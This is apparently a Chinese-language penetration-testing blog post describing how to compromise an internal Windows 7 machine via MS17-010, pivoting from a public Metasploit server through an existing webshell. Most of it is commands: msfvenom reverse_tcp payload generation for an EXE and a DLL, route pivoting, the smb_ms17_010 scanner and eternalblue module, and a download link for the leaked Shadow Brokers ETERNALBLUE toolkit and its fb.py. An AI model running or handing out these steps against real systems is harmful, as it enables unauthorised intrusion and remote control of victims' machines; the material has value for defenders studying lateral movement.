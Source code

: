 ```yaml
---
title: 利用公网Msf+MS17010跨网段攻击内网
date: 2018-10-18 20:14:11
tags:
	- MSF
	- MS17010
	- 内网
categories: 渗透
keywords:
description:
---
```

![](http://image.ixysec.com/image/msf/timg.jpg)<!-- more -->

环境：
攻击机：公网 ubuntu + msf
目标主机：win7     ip：192.168.1.107
已有与目标主机同一内网的webshell   ip 192.168.1.106


公网主机操作：
生成msf木马：
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=公网ip lport=1234 -f exe > shell.exe
```
![](http://image.ixysec.com/image/msf/msf001.jpg)

msf监听端口：1234

![](http://image.ixysec.com/image/msf/msf002.jpg)

然后将生成的 shell.exe 通过已有webshell上传执行。

![](http://image.ixysec.com/image/msf/msf003.jpg)

可以看到成功返回了目标机内网192.168.1.106的shell。


添加路由：
`run get_local_subnets` 获取当前路由

![](http://image.ixysec.com/image/msf/msf004.jpg)

`route add 192.168.1.0 255.255.255.0 1` 添加路由

![](http://image.ixysec.com/image/msf/msf005.jpg)

使用Payload进行攻击:
background（转换到后台）

对目标主机进行扫描：
```
use auxiliary/scanner/smb/smb_ms17_010
set rhosts 192.168.1.107
```
![](http://image.ixysec.com/image/msf/msf006.jpg)

![](http://image.ixysec.com/image/msf/msf007.jpg)

可以看到扫描结果，可以使用ms17010对目标主机进行攻击。

使用攻击模块进行攻击：
```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set rhosts 192.168.1.107
set lhost 本地ip
```
`run` 进行攻击

但是利用失败了。。。

![](http://image.ixysec.com/image/msf/msf008.jpg)

试了多次都是这样，在土司求助好像也没什么解决方法，大家都是用的原版的fb.py成功率比较高。最后也是在win2003这台使用原版的攻击成功，下面附上过程。

攻击机win2003安装：
```
python-2.6.6.msi
https://www.python.org/download/releases/2.6.6/
pywin32-221.win-amd64-py2.6.exe：
https://sourceforge.net/projects ... ywin32/Build%20221/
方程式ETERNALBLUE 下载地址：
https://codeload.github.com/misterch0c/shadowbroker/zip/master
```
装好 python 和 pywin32 后把python目录添加到环境变量。

将整个ETERNALBLUE 目录下的 windows拷贝到攻击机win2003上

![](http://image.ixysec.com/image/msf/msf009.jpg)

在windows目录下建立一个文件为：listeningposts

运行`python fb.py`
以下在攻击机win2003上执行fb.py的具体命令重要命令如下，其他命令都用回车执行。

![](http://image.ixysec.com/image/msf/msf010.jpg)

![](http://image.ixysec.com/image/msf/msf011.jpg)

![](http://image.ixysec.com/image/msf/msf012.jpg)

![](http://image.ixysec.com/image/msf/msf013.jpg)

![](http://image.ixysec.com/image/msf/msf014.jpg)

远程ubuntu上利用msf生成一个dll劫持文件：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=远程攻击机ip LPORT=1234 -f dll > blue.dll
```
将blue.dll文件拷贝到windows2003的C盘目录下：
在msf下开启msfpaylod监听：
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set lhost 本地ip
set lport 1234
exploit
```
![](http://image.ixysec.com/image/msf/msf015.jpg)

接着在windows2003下执行

![](http://image.ixysec.com/image/msf/msf016.jpg)

![](http://image.ixysec.com/image/msf/msf017.jpg)

![](http://image.ixysec.com/image/msf/msf018.jpg)

![](http://image.ixysec.com/image/msf/msf019.jpg)

最后在msf下可以看到成功反弹shell:

![](http://image.ixysec.com/image/msf/msf020.jpg)

过程一波三折，本地用msf自带的攻击是成功的，不知道远程的msf为什么失败了，有清楚原因的老哥希望可以与我联系指点一下。